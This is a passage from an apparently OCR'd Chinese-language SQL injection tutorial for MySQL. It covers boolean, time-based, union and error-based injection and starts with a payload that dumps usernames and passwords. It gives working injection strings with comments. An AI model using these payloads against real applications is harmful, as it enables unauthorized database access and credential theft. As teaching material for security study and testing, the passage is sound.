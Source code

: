 select null,group_concat(username,password) from users

### 2.MySQL < 5.0

MySQL < 5.0 没有信息数据库**information_schema**，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

### 相关函数

**length(str)** ：返回字符串str的长度

**substr(str, pos, len)** ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

**mid(str,pos,len)** ：跟上面的一样，截取字符串

**ascii(str)** ：返回字符串str的最左面字符的ASCII代码值

**ord(str)** ：将字符或布尔类型转成ascll码

**if(a,b,c)** ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

### （1）基于布尔的盲注

and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/

### （2）基于时间的盲注

id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/

## 0x06 常用注入方式

注释符：

内联注释：

```plaintext
/*！...*/
```

### union注入

id =-1 union select 1,2,3 /*获取字段*/

### Boolean注入

id=1' substr(database(),1,1)='t'--+ /*判断数据名长度*/

### 报错注入

#### 1 floor()和rand()

union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a /*利用错误信息得到当前数据库名*/

#### 2 extractvalue()
